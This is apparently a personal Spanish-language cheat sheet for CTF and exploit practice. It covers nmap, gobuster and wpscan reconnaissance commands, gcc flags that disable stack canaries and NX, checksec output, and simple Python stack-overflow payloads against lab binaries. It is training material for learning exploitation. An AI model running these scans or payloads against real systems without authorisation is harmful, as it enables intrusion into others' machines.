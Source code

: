 


NMAP
====================================================================================================================================================================
nmap 10.10.11.152 -sV -sC -Pn

nmap -Pn -n -sV --script vuln <IP>



nikto and gobuster: Listan directorios Web

$ for i in files directories; do gobuster dir -t 30 -u $RHOST -w /opt/wordlists/seclists/Discovery/Web-Content/raft-medium-$i.txt -o enum/web/gobuster-80-rm${i:0:1}.txt; done

wpscan - Para escanera WordPress

https://khaoticdev.net/hack-the-box-backdoor/


gcc -m32 -no-pie -fno-stack-protector -ggdb -mpreferred-stack-boundary=2 -z execstack -o stack1 stack1.c

CHECKSEC
BEFORE ================================================================================================================================================================
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   42) Symbols       No    0               2               abo4-stin

AFTER ================================================================================================================================================================

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   PIE enabled     No RPATH   No RUNPATH   42) Symbols       No    0               2               abo4-stin

====================================================================================================================================================================

COMPILAR SIN PROTECCIONES
========================
gcc -fno-stack-protector -z execstack -g -o abo4-stin abo4-stin.c

gcc -m32 -no-pie -fno-stack-protector -ggdb -mpreferred-stack-boundary=3 -z execstack -o stack1 stack1.c

PROTECCIONES
------------
-fno-stack-protector: CANARY
-z execstack :  HACER PILA EXECUTABLE
-no-pie      :  EJECUCIÓN INDEPENDIENTE DE LA POSICIÓN

-mpreferred-stack-boundary=3


COMPILADO DEPURADOR
-------------------
Como lo compilamos con gcc -g, se puede desensamblar el programa intercalado con el código fuente con objdump -M intel -S stack1.

GUIA DE EXPLOITS
---------------------------------------------------------------------------------------------------------------------------------------------------------------------

NIVEL1
---

#!/usr/bin/python
output = "A" * 80 + "\x44\x43\x42\x41"
print output

Y al ejecutar el programa con ese input logramos el mismo resultado:

user@abos:~$ python exploit.py |./stack1
buf: bffff5b4 cookie: bffff604
you win!

DIFERENTES FORMAS DE INTRODUCIR DATOS A LOS STACKS
python -c 'print ("DCBA" * 26 + "\x44\x43\x42\x41")' | ./stack1 

python -c 'print("\x05\x03\x02\x01" * 24)'  > input.txt
./stack2 < input.txt

python -c 'print("\x05\x00\x02\x01" * 24)'  | ./stack3 


INTRODUCIR DATOS EN GDB
---
user@u:~$ python exploit.py > inpython -c 'print("\x05\x00\x02\x01" * 24)'  | ./stack3 

user@u:~$ gdb ./stack1
GNU gdb (Debian 7.7.1+dfsg-5) 7.7.1
...
(gdb) r < in
buf: bffff5b4 cookie: bffff604
you win!


LLAMADAS AL SISTEMA
En Linux cada llamada toma sus argumentos de los registros según el siguiente criterio:

eax => nro de syscall
ebx => 1er argumento
ecx => 2do argumento
edx => 3er argumento 

Para saber el número que corresponde a cada syscall se puede consultar: /usr/include/asm/unistd_32.h

